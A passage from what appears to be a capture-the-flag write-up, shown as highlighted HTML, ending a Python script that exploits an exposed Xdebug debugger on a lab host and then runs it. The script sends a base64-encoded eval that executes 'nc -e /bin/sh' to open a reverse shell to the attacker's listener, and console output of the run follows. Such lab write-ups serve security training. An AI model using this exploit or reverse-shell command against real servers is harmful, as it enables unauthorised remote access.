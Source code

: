 <span class="c1"># Catch callback
</span><span class="n">conn</span><span class="p">,</span> <span class="n">addr</span> <span class="o">=</span> <span class="n">s</span><span class="p">.</span><span class="nf">accept</span><span class="p">()</span>
<span class="n">client_data</span> <span class="o">=</span> <span class="n">conn</span><span class="p">.</span><span class="nf">recv</span><span class="p">(</span><span class="mi">1024</span><span class="p">)</span>
<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[+] Connection received from {}:{} on port {}</span><span class="sh">"</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">addr</span><span class="p">[</span><span class="mi">0</span><span class="p">],</span> <span class="n">addr</span><span class="p">[</span><span class="mi">1</span><span class="p">],</span> <span class="n">local_port</span><span class="p">))</span>
<span class="n">cmd</span> <span class="o">=</span> <span class="sh">'</span><span class="s">system(</span><span class="sh">"</span><span class="s">nc -e /bin/sh {} {}</span><span class="sh">"</span><span class="s">)</span><span class="sh">'</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">ip</span><span class="p">,</span> <span class="n">port</span><span class="p">).</span><span class="nf">encode</span><span class="p">(</span><span class="sh">'</span><span class="s">utf-8</span><span class="sh">'</span><span class="p">)</span>
<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[*] Sending command get shell on port {}</span><span class="sh">"</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">port</span><span class="p">))</span>
<span class="n">conn</span><span class="p">.</span><span class="nf">sendall</span><span class="p">((</span><span class="sh">'</span><span class="s">eval -i 1 -- %s</span><span class="se">\x00</span><span class="sh">'</span> <span class="o">%</span> <span class="nf">b64encode</span><span class="p">(</span><span class="n">cmd</span><span class="p">).</span><span class="nf">decode</span><span class="p">(</span><span class="sh">'</span><span class="s">utf-8</span><span class="sh">'</span><span class="p">)).</span><span class="nf">encode</span><span class="p">(</span><span class="sh">'</span><span class="s">utf-8</span><span class="sh">'</span><span class="p">))</span>

<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[*] Cleaning up. Should have callback</span><span class="sh">"</span><span class="p">)</span>
<span class="n">s</span><span class="p">.</span><span class="nf">close</span><span class="p">()</span>
<span class="n">conn</span><span class="p">.</span><span class="nf">close</span><span class="p">()</span>
</code></pre></div></div>

<p>Now, to get a shell, with nc listener going, run the script:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>./get_olympic_www_shell.py 443
<span class="go">[!] Have nc listening on 443
[*] Starting listener on 0.0.0.0:9000
[+] Listening...
[*] Sending request to tip xdebug
[+] Connection received from 10.10.10.83:36262 on port 9000
[*] Sending command get shell on port 443
[*] Cleaning up. Should have callback
</span></code></pre></div></div>

<p>And get a callback:</p>
